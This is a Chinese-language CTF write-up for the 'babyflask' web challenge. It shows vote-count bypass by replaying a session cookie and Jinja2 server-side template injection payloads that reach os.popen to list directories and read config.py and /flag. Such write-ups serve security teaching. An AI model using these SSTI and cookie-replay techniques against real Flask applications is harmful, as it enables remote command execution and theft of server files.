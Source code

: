 # babyflask
*http://123.60.19.253:10001*

---

分析给出的源文件,发现`/success`路由下的`name`存在SSTI漏洞.

继续分析,`name`取自`session['name']`,用户登录时会自动创新用户和删除前一个同名用户的登录信息,那其实我们用注入的代码的作为用户名直接登录即可.

```python
template =  '''
Congratulations, %s. You can get flag now!
''' % name
return render_template_string(template)
```

要想执行到上述代码,需要给flag投满8票(我们手里只有5票),注意到vote是存储在session中,`/vote`接口会校验`session`中保存的vote数量并减一,猜测这里可能存在session会话劫持.

我们第一次登录时复制一下当前的`session`,然后给flag投票,等手里的票用光之后,再把第一次登录时复制的`seesion`粘贴进浏览器保存的Cookie中,我们的票又回来了.

>🤠登录后疯狂点击“投票”,也能投满8票;可能因为Server响应太慢,浏览器中保存的session还没来得及被更新,导致多个请求发起时共用一个session(即vote数量相等),session中保存的vote最终只会减一.

<img src="images/0.jpg" alt="image-20211114190032492" style="zoom:50%;" />

使用如下代码作为用户名登录,查看一下当前已加载模块

```python
{{''.__class__.__bases__[0].__subclasses__()}}
```
<img src="images/1.jpg" alt="image-20211114182131940" style="zoom:50%;" />

人肉计数/写个脚本,找到`os._wrap_close`模块所在的索引,借助于`popen`函数可以直接执行系统命令

```python
num = 0
for i in a.split(', '):
    if 'os._wrap_close' in i:
        print(num)
    num += 1
```

先`ls -a`一下,发现`config.py`

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -a').read()}}
```

![image-20211114183143814](../../CTF/L3HCTF2021-个人能力认证/Web/images/2.png)
继续`cat`,没有在`config.py`中找到flag

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat config.py').read()}}
```

![image-20211114183703433](../../CTF/L3HCTF2021-个人能力认证/Web/images/3.png)

用`ls -R /`找找,发现存在`/flag`文件

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -R /').read()}}
```

![image-20211114183857713](../../CTF/L3HCTF2021-个人能力认证/Web/images/4.jpg)
直接`cat /flag`即可

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

![image-20211114184236370](../../CTF/L3HCTF2021-个人能力认证/Web/images/5.png)

**flag:**`l3hsec{emmMmMM_mm~mMMmm~~T}`

